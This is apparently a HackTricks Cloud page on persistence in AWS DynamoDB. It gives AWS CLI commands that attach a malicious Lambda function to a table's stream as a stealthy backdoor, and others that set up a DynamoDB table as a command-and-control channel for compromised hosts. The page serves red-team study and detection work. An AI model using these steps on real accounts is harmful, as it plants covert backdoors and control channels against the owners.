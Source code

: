 # AWS - DynamoDB Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

For more information access:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers with Lambda Backdoor

Using DynamoDB triggers, an attacker can create a **stealthy backdoor** by associating a malicious Lambda function with a table. The Lambda function can be triggered when an item is added, modified, or deleted, allowing the attacker to execute arbitrary code within the AWS account.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```
{% endcode %}

To maintain persistence, the attacker can create or modify items in the DynamoDB table, which will trigger the malicious Lambda function. This allows the attacker to execute code within the AWS account without direct interaction with the Lambda function.

### DynamoDB as a C2 Channel

An attacker can use a DynamoDB table as a **command and control (C2) channel** by creating items containing commands and using compromised instances or Lambda functions to fetch and execute these commands.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insert a command into the table
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

The compromised instances or Lambda functions can periodically check the C2 table for new commands, execute them, and optionally report the results back to the table. This allows the attacker to maintain persistence and control over the compromised resources.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
